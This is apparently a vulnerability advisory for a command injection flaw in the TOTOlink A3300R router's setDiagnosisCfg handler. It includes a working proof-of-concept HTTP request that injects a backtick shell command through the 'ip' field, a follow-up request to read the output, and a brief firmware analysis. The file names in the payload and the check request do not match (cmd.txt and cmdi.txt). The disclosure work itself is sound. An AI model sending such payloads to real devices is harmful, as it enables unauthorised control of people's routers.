




# TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information
Device: TOTOlink A3300R<br>
Firmware Version: V17.0.0cu.557_B20221024<br>
Manufacturer's website information：https://www.totolink.net/<br>
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html<br>

## Vulnerability Description
When deal with setDiagnosisCfg request, ip parameter is vulnerable to OS command injection.

### POC
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.44.132
Content-Length: 73
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.44.132
Referer: http://192.168.44.132/advance/diagnosis.html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
Connection: close

{"ip":"1.2.3.4`ls>/web/cmd.txt`","num":"2","topicurl":"setDiagnosisCfg"}
```

injection the command "ls>/web/cmdi.txt"



check the result.
```
GET /cmdi.txt HTTP/1.1
Host: 192.168.44.132
Content-Length: 0
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.44.132
Referer: http://192.168.44.132/login.html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
Connection: close


```



## Analyse
sub_413968 will handle the setDiagnosisCfg request. sub_413968 firstly get ip and num from request body, then pass to CsteSystem function.



CsteSystem wraps the command and then passes it to execv to execute the command.


